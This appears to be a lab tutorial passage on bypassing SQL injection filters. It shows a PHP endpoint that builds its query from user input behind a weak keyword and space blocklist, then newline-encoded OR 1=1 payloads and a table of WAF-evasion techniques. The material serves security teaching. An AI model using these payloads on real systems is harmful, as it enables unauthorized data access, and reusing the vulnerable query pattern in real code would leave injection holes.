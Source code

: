 Practical Example

In this scenario, we have an endpoint, `http://10.10.223.104/space/search_users.php?username=?` that returns user details based on the provided username. The developer has implemented filters to block common SQL injection keywords such as OR, AND, and spaces (%20) to protect against SQL injection attacks.  

Here is the PHP filtering added by the developer.

```php
$special_chars = array(" ", "AND", "and" ,"or", "OR" , "UNION", "SELECT");
$username = str_replace($special_chars, '', $username);
$sql = "SELECT * FROM user WHERE username = '$username'";
```

If we use our standard payload `1%27%20||%201=1%20--+` on the endpoint, we can see that even through URL encoding, it is not working.

![injection with incorrect payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716108426440)

The SQL query shows that the spaces are being omitted by code. To bypass these protections, we can use URL-encoded characters that represent different types of whitespace or line breaks, such as `%09` (horizontal tab), `%0A` (line feed). These characters can replace spaces and still be interpreted correctly by the SQL parser.

The original payload `1' OR 1=1 --` can be modified to use newline characters instead of spaces, resulting in the payload `1'%0A||%0A1=1%0A--%27+`. This payload constructs the same logical condition as `1' OR 1=1 --` but uses newline characters to bypass the space filter.

The SQL parser interprets the newline characters as spaces, transforming the payload into `1' OR 1=1 --`. Therefore, the query will be interpreted from `SELECT * FROM users WHERE username = '$username'` to `SELECT * FROM users WHERE username = '1' OR 1=1 --`.

Now, if we access the endpoint through an updated payload, we can view all the details. 

![injection with correct payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716108947600)  

To summarise, it is important to understand that no single technique guarantees a bypass when dealing with filters or Web Application Firewalls (WAFs) designed to prevent SQL injection attacks. However, here are some tips and tricks that can be used to circumvent these protections. This table highlights various techniques that can be employed to try and bypass filters and WAFs:

|   |   |   |
|---|---|---|
|**Scenario**|**Description**|**Example**|
|**Keywords like SELECT are banned**|SQL keywords can often be bypassed by changing their case or adding inline comments to break them up|SElEcT * FrOm users or SE/**/LECT * FROM/**/users|
|**Spaces are banned**|Using alternative whitespace characters or comments to replace spaces can help bypass filters.|SELECT%0A*%0AFROM%0Ausers or SELECT/**/*/**/FROM/**/users|
|**Logical operators like AND, OR are banned**|Using alternative logical operators or concatenation to bypass keyword filters.|username = 'admin' && password = 'password' or username = 'admin'/**/\|/**/1=1 --|
|**Common keywords like UNION, SELECT are banned**|Using equivalent representations such as hexadecimal or Unicode encoding to bypass filters.|SElEcT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)|
|**Specific keywords like OR, AND, SELECT, UNION are banned**|Using obfuscation techniques to disguise SQL keywords by combining characters with string functions or comments.|SElECT * FROM users WHERE username = CONCAT('a','d','m','i','n') or SElEcT/**/username/**/FROM/**/users|

  